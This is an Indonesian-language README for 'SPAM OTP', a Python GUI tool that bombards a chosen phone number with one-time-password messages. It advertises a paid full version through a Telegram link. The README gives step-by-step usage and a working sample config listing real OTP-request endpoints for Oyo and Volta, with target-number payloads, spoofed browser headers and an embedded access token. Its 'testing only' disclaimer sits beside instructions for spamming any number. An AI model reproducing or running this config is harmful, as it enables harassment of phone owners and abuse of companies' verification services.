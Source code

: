 # 📱🔥 SPAM OTP GUI - README 🔥📱

Halo bro! 👋 Ini adalah aplikasi SPAM OTP keren dengan GUI yang kece pake Python 🐍. Buat yang mau ngirim OTP ke nomor tertentu (buat testing doang ya, jangan disalahgunakan 😉).

## 🚀 Fitur-Fitur Keren
- 💻 Tema warna ala Discord biar aesthetic ✨
- 🔐 Sistem login pake kode validasi biar aman
- 🌐 Auto cek koneksi internet biar ga error
- 📲 Support 3 format nomor (local, internasional, +62)
- ⚡ Multi-threading biar ga nge-freeze
- 📜 Log history buat liat hasil pengiriman
- 🛑 Tombol stop buat berhentiin kapan aja

## 🛠️ Cara Pake
1. **Login Dulu** 🔒  
   - Masukin kode validasi yang bener  
   - Kalo bener, langsung masuk ke menu utama  

2. **Masukin Nomor Target** 📱  
   - Isi nomor yang mau dikirimin OTP (contoh: 8123456789)  

3. **Gaspol!** 🚀  
   - Klik tombol "KIRIM" buat mulai spam  
   - Klik "STOP" kalo udah cukup  

4. **Liat Hasil** 📜  
   - Semua log pengiriman bakal muncul di textbox bawah  

## ⚠️ Peringatan
- Jangan disalahgunakan ya bro! 🙏  
- Ini cuma buat testing doang  
- Kalo internet mati, bakal muncul notif  

## 💻 Teknis
- Pake library `tkinter` buat GUI-nya  
- Ada multithreading biar ga lag  
- Ambil config dari GitHub biar fleksibel  

## 🔧 Contoh Config OTP (otp_config.json)
```json
[
    {
        "name": "Oyo",
        "method": "post",
        "url": "https://identity-gateway.oyorooms.com/identity/api/v1/otp/generate_by_phone?locale=id",
        "data": "{\"phone\": \"target_number\", \"country_code\": \"+62\", \"country_iso_code\": \"ID\", \"nod\": \"4\", \"send_otp\": \"true\", \"devise_role\": \"Consumer_Guest\"}",
        "headers": {
            "Host": "identity-gateway.oyorooms.com",
            "consumer_host": "https://www.oyorooms.com",
            "accept-language": "id",
            "access_token": "SFI4TER1WVRTakRUenYtalpLb0w6VnhrNGVLUVlBTE5TcUFVZFpBSnc=",
            "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36",
            "Content-Type": "application/json",
            "accept": "*/*",
            "origin": "https://www.oyorooms.com",
            "referer": "https://www.oyorooms.com/login",
            "Accept-Encoding": "gzip,deflate,br"
        }
    },
    {
        "name": "Volta",
        "method": "post",
        "url": "https://auth-production.voltaindonesia.com/v1/client/request-otp",
        "data": "{\"phoneNumber\": \"target_number\"}",
        "headers": {
            "accept": "application/json, text/plain, */*",
            "accept-encoding": "gzip, deflate, br, zstd",
            "accept-language": "en-US,en;q=0.9,id;q=0.8",
            "content-type": "application/json",
            "origin": "https://voltaindonesia.com",
            "referer": "https://voltaindonesia.com/",
            "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36"
        }
    }
]
```
## 💰 Mau Versi Full OTP?

[![Telegram](https://img.shields.io/badge/🛒_BELI_FULL_OTP-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white)](https://t.me/Yoshcc)

Fitur versi full:
- ✅ 10+ layanan OTP terupdate
- 🔄 Auto update config otomatis
- 📊 Statistik pengiriman real-time
- 🛡️ Support proxy & multi-threading
- 🔥 Fitur-fitur premium lainnya

### Penjelasan Config:
- `name` : Nama layanan yang mau di-spam (e.g. Oyo, Volta)
- `url` : Endpoint API untuk request OTP
- `data` : Payload yang dikirim (pake placeholder `target_number` yang bakal diganti)
- `headers` : Header request biar mirip request asli dari browser/app

## 🎨 Tampilan
![Preview GUI]  
(Warna gelap ala Discord, ada tombol warna-warni, log history, dll)

## 📝 Catatan
Creator: **Yosepwdd**  
Dibuat pake ❤️ dan Python  

Yang mau modif silahkan, tapi jangan lupa kasih credit ya 😘  

```bash
# Cara jalanin:
python spam_otp.py
```

Semoga bermanfaat! Kalo ada error, jangan nangis ya 😂  
Peace out! ✌️

